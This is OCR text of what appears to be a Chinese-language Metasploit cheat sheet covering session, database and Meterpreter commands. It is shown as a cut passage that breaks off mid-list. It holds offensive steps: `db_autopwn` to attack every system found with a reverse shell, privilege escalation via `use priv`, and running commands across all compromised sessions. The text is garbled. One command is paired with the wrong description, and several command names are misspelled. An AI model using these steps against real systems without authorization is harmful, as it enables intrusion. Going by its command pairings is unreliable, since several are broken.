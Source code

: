 sessions -s script

在所有活跃的Meterpreter会话中运行一个特定的Meterpreter脚本

sessions -K

杀死所有活跃的交互会话

sessions -c cmd

在所有活跃的Meterpreter会话上执行一个命令

sessions -u sessionID


search scanner type:auxiliary 

升级一个普通的win 32 shell到Meterpreter shell

db_creat name

创建一个数据库驱动攻击所要用的数据库（例如：db_creat autopwn)

db_connect name 

创建并连接一个数据库驱动攻击所要用的数据库（例如：db_connect autopwn)

db_nmap

利用nmap并把扫描数据存储到数据库中（支持nmap的普通语法）

db_autopwn -p -r -e

对所有发现的开放端口执行db_autopwn，攻击所有系统，并使用一个反弹shell

db_destroy

删除当前数据库

db_destory user:password@host:port/datebase

使用高级选项来删除数据库

二、Meterpreter命令
help

打开使用帮助

run scriptname

运行Meterpreter脚本，在scripts/meterpreter目录下查看所有脚本名

sysinfo

列出受控主机的系统信息

ls

列出主机的文件和文件夹信息

use priv

加载特权提升拓展模块，来扩展Meterpreter库

ps
